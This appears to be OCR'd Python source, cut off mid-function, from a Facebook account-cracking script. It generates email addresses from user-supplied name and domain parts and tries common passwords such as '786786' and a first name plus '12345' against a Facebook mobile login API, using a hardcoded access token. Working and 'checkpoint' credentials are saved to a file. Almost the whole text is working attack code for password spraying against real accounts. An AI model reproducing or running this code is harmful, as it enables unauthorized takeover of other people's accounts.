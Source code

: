 
def crack_action():
	bch = ""
	if bch =="":
		os.system('clear')
		print logo
		try:
			idlist = (".txt")
			kn=raw_input(" 1st Name Without Space : ")
			k=raw_input(" Username Without Digits : ")
			c=raw_input(" Mail Domain : ")
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '[!] Error 404, please try again'
			raw_input('\n[ Press Enter To Go Back ]')
			menu()
	elif bch =="0":
		menu()
	else:
		print "[!] Fill in correctly"
		crack_action()
	xxx = str(len(id))
	psb ('[✓] Please wait, process is running ...')
	time.sleep(0.5)
	psb ('[!] To Stop Process Press CTRL Then Press z')
	time.sleep(0.5)
	print 50*"-"
	print
	
			
	def main(arg):
		global cpb,oks
		user = k+arg+c
		try:
			pass1="786786"
			data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			q = json.loads(data.text)
			if '407' in q['error_msg']:
				print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass1
				oks.append(user+pass1)
			else:
				if '405' in q["error_msg"]:
					print '[Checkpoint] ' + user + ' | ' + pass1
					cps = open("save/checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					pass2 = kn+'12345'
					data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
					q = json.loads(data.text)
					if '407' in q['error_msg']:
						print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass2
						oks.append(user+pass2)
					else:
						if '405' in q["error_msg"]:
							print '[Checkpoint] ' + user + ' | ' + pass2
							cps = open("save/checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()